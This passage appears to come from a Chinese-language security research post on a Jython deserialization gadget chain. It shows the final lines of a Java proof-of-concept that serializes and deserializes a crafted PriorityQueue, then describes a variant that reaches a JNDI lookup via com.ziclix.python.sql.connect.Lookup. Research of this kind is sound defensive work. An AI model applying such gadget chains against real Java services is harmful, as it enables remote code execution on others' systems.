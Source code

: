 ```bash
        f2.set(priorityQueue, 2);  

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(priorityQueue);  

        byte[] bytes = byteArrayOutputStream.toByteArray();  
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);  
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);  
        objectInputStream.readObject();  
    }  
}
```

上述执行 python 代码等同于：

[![](assets/1708482702-9f6b1271064dd97df002e36c19564a9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220141836-e1994b26-cfb7-1.png)

## com.ziclix.python.sql.connect.Lookup

然后再看一下 com.ziclix.python.sql.connect.Lookup jndi 的调用

整个链的触发逻辑一样，只是最终的触发改为了  
`com.ziclix.python.sql.connect.Lookup#__call__`  
把第一个参数取出来解析成 jndiName  
[![](assets/1708482702-d5c03b7f07eceb9981ff5ae717b51d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220141927-00121ab0-cfb8-1.png)

最终带入 lookup 方法  
[![](assets/1708482702-7686aef6d365a9bab12112d5ec227732.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220141938-068fe656-cfb8-1.png)
